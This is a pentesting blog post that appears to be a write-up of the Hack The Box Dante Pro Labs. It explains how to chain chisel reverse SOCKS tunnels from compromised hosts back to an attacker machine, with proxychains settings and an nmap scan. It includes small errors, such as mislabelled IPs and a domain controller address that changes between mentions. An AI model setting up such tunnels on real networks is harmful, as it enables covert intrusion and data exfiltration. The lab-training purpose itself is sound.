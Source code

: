 ```yaml
---
title:  Pivoting with Chisel
date: 2020-11-18 12:17:34 -0400
categories: [Pentesting , Pivoting]
tags: [pivot, red, team, network, chisel]
image:
  path: /assets/img/post/pivoting.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


# Summary
Recently I've completed the Hack The Box Dante Pro Labs and really enjoyed it. One of the most crucial pieces to being successful in the lab is understanding how to pivot properly. So I wanted to write up a blog post explaining how to properly pivot.

# Network
Below is a simulated network that I have drawn up to help understand things a bit more visually as I set though setting up or proxy tunnels.

![Image](/assets/img/post/2020-11-18-pivoting-with-chisel/network.png)


Lets assume that we have enumerated the network and identified a computer on the Admin network and we need to gain access and exfil data from it. Our attacker machine is `10.10.101.51` and the web server we need to breach is external facing and has an external IP of `10.10.101.50` and an internal IP or `172.16.1.101`. Lets assume that you have a foothold or even root/admin on the web server and you want begin to do recon of the internal network. There are a ton of ways to go about doing this such as:

- Transfering a tool such as nmap directly on the machine we have access to and scan the internal network.
- A dynamic ssh tunnel utilizing socks4/socks5 and use proxychains and nmap (may be a bit slow)
- Use Cobalt Strike to setup a proxy to pivot through.

The main focus of this post is to understand how to properly pivot without those other methods and use chisel instead.

First we need to start a chisel server running on port 8001 our attacker machine so we can pivot through the `10.10.101.50` machine and gain access to the network. Run the command below to start a server:

```shell
#Run command on attacker machine (10.10.101.51)
./chisel server -p 8001 --reverse
```

Assuming we have a foothold on the Web Server we can transfer chisel to the machine and connect back to our chisel server to complete the tunnel.

```shell
#Run command on Web Server machine (172.16.1.101 || 10.10.101.50)
./chisel client 10.10.101.51:8001 R:1080:socks
```
This will create a reverse proxy and open port 1080 on our machine. Now we can modify our proxychains.conf file to use this proxy. At the bottom of the `/etc/proxychains.conf` add `socks5 127.0.0.1 1080`. Now that we have this working we can use this to conduct a simple nmap of the internal network from the Web Server. 

```shell
#Run command on attacker machine (10.10.101.50 || 172.16.1.101)
proxychains4 nmap 172.16.1.1/24
```
Now that we have gathered all the info about our current subnet and gained access to all the computers including the domain controller we now want to pivot into the second subnet. We are assuming that the domain controller on the Office Network has a trust with the Admin Network. First we need to start a chisel server on the Web Server in addition to the chisel client we are already using to pivot onto the Office Network similar to how we started a chisel server on our attacker machine. Next we need to transfer the chisel client to the Windows domain controller (`172.16.1.5`) to connect to our chisel server on the web server system so can chain our tunnel. 

```shell
#Run command on Web Server machine (172.16.1.101)
./chisel server -p 8002 --reverse
```
Then on the domain controller (172.16.1.5) in the office network we want create a new connection that will connect to the chisel server running on `172.16.1.101` on port 8002

```shell
#Run command on Office Domain Controller machine (172.16.1.5)
chisel.exe client 172.16.1.101:8002 R:2080:socks
```
Finally we now want to add this new connection in our `proxychains.conf` which will look like something below.

```
socks5 127.0.0.1 1080 
socks5 127.0.0.1 2080 
```

Our connection should now now be 
<img src="/assets/img/post/2020-11-18-pivoting-with-chisel/network2.png" style="width: 75%" >

Now that we can tunnel through the domain controller we can do some more recon and find the IP of the domain controller of the Admin network. Once we identify the IP of the DC in Admin network (`172.16.2.10`) we can begin to look for a path of compromise. 

Lets assume that we now have access to the domain controller in the Admin network. We now want to pivot again from the Office network DC to the Admin network DC so we can recon and eventually gain access to our target computer on the Admin network (`172.16.2.200`). First we want to create a server on the Office DC 

```shell
#Run command on Office Domain Controller machine (172.16.1.5 )
chisel.exe server -p 8003 --reverse
```
Then on the Admin DC we want to run the following command to connect back to our domain controller.

```shell
#Run command on Admin Domain Controller machine (172.16.2.5)
chisel.exe client 172.16.1.5:8003 R:3080:socks
```
Finally we want to add a third entry into our `proxychains.conf`

```
socks5 127.0.0.1 1080 
socks5 127.0.0.1 2080 
socks5 127.0.0.1 3080 
```

We have now successfully pivoted three times to get to our target goal which is to have access to the target computer on the admin network. The proxy connections should look something like below. Since we own the domain controller we can now use this to gain access to login to the machine at `172.16.2.200`

<img src="/assets/img/post/2020-11-18-pivoting-with-chisel/network3.png" style="width: 75%" >
